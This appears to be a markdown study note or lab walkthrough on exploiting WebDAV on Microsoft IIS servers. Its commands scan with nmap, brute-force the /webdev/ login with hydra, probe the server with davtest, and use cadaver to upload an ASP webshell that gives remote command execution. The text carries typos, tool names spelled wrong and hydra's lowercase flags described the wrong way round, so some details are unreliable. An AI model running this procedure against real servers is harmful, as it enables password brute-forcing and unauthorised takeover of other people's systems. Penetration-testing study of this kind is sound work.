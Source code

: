 ## Exploiting WebDev running on Microsoft IIS

After getting target IP address, first run nmap to scan open ports and services running
```
nmap -sV -sC <ip>
```
-sV: Probe open ports to determine service/version info \
-sC: equivalent to --script=default

---

Finding more information on port 80
- we can see /webdev/ if webdev is running on that IIS microsoft server 
- Authorization is required if not asking authorization then then it is very easy to exploit it by uploading webshell

```
nmap -sV -p 80 --script=http-enum <ip>
```

---

Now, Go to the browser and then http://ip/webdev. We can see files and directories
- If authorization is required then we need to bruteforce to find out username and password.
- To bruteforce we can use ```hydra``` tool.
```
hydra -L username/wordlists/path -P password/wordlists/path <ip> http-get /webdev/
```
-L : provide username wordlists \
-P : provide password wordlists \
-p : provide username \
-l : provide password

---

### Tools
---
1. ```davtest``` - Used to scan, authenticate and exploit a WebDev server.
2. ```cadaver``` - cadaver supports file upload, download, on-secreen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation and resource locking on WebDev servers
---
 ## ```davtest```
```
devtest -url http://ip/webdev
```
If authentication is required then,
```
davtest -auth username:password -url http://ip/webdev
```
Note: while doing this process means authenticating, devtest will create ```DevTestDir``` named directory 

---
## ```cadaver```
```
cadaver --help
```
```
cadaver http://ip/webdev
```
after executing, we need to provide valid credentials
  - username:
  - passwrod:

Then we will get one interface which of webdev sever
Now, we can perfor ```ls``` to list files and directory 
```
ls
```
The main focus is to upload webshell to get RCE
```
put /usr/share/webshells/asp/webshell.asp
```
It will uplad webshell in webdev. <br>
Note: you have upload that extension webshell which has permission to execute in webdev. IN my case asp file
- To see the lists of webshell, you have run this command in your terminal
  ```
  ls -al /usr/share/webshells/
  ```

---

Come back, We have successfully uploaded webshell in webdev.<br>
Now, browse http://ip/webdev<br>
then click on that wehshell to get interface to run command on IIS server





 

